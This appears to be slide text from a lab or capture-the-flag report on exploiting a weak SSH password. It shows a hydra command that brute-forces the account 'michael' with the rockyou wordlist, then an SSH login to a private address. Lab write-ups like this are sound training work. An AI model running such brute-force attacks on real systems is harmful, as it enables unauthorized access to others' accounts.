

# Exploitation 2: SSH Weak Password Vulnerability
Summarize the following:
How did you exploit the vulnerability?

Run  hydra –l michael –P /usr/share/wordlists/rockyou.txt ssh

ssh michael@192.168.1.110 –p 22

12